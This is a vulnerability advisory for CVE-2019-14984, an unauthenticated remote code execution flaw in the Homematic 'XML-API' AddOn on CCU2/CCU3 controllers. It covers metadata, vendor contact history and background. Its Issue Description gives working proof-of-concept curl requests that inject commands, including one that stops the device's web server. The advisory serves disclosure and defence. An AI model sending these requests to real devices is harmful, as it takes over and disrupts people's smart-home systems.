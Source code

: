 ```yaml
---
layout: post
title:  "CVE-2019-14984 eQ-3 Homematic AddOn 'XML-API' version 1.2.0 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/xmlapi/exec.cgi script, which executes TCL script content from HTTP POST request"
date:   2019-08-13 19:30:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14984
- Author: psytester
- Title: eQ-3 Homematic AddOn 'XML-API' version 1.2.0 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/xmlapi/exec.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'XML-API' AddOn contacted: 13.03.2019
  - Developer of 'XML-API' AddOn confirmation: N.A.
  - 'XML-API' AddOn patch: N.A. but a [Github PR #31](https://github.com/jens-maus/XML-API/pull/31) is still open since 14.05.2019
  - Affected 'XML-API' AddOn version: 1.2.0 and prior

# Background

From [Github 'XML-API' AddOn project page](https://github.com/jens-maus/XML-API):<br>
A HomeMatic CCU Addon implementing a xml request functionality as an interface to all homematic deviced available to a CCU device. This addon provides useful scripts that can be accessed via a HTTP request to a CCU device and allows to query and set all e.g. room- and devicetype names.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'XML-API' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
